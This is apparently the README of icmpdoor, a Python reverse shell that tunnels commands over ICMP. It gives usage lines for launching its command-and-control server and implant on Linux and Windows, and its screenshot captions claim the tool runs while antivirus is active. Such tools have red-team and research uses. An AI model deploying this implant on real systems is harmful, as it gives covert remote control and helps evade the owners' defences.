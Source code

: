 # icmpdoor - ICMP Reverse Shell
icmpdoor is written in Python3 and scapy. Tested on Ubuntu 20.04, Debian 10 (Kali Linux), and Windows 10. 

[Read this article for more information.](https://cryptsus.com/blog/icmp-reverse-shell.html)

**Python version usage (both Windows and Linux):**
```bash
./icmp-cnc.py -i INTERFACE -d DESTINATION_IP (Command and Control) Plus run sysctl -w net.ipv4.icmp_echo_ignore_all=1
./icmpdoor.py -i INTERFACE -d DESTINATION_IP (Implant)
```

**Binary Windows version usage version:**
```bash
./icmp-cnc.exe -d DESTINATION_IP (Command and Control)
./icmpdoor.exe -d DESTINATION_IP (Implant)
```

**Binary Linux version usage version:**
```bash
./icmp-cnc -d DESTINATION_IP (Command and Control)
./icmpdoor -d DESTINATION_IP (Implant)
```

**Parameters details:**
```bash
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Listener (virtual) Network Interface (e.g. eth0)
  -d DESTINATION_IP, --destination_ip DESTINATION_IP
                        Destination IP address
  exit                  Exit Command and Control (E2)
  ```
# Screenshots
Screenshot 1 and 2 shows how icmpdoor works on Ubuntu 20.04, Debian 10 (Kali Linux) and Windows 10. ClamAV is active on Ubuntu 20.04:
![screen1](https://cryptsus.com/blog/icmp-reverse-shell-linux.jpg)
Microsoft Defender Advanced Threat Protection (ATP) is active on the Windows 10 Enterprise machine:
![screen2](https://cryptsus.com/blog/icmp-reverse-shell-windows.jpg)

# License
Berkeley Software Distribution (BSD)

# Author
[Jeroen van Kessel](https://twitter.com/jeroenvkessel) | [cryptsus.com](https://cryptsus.com) - we craft cyber security solutions
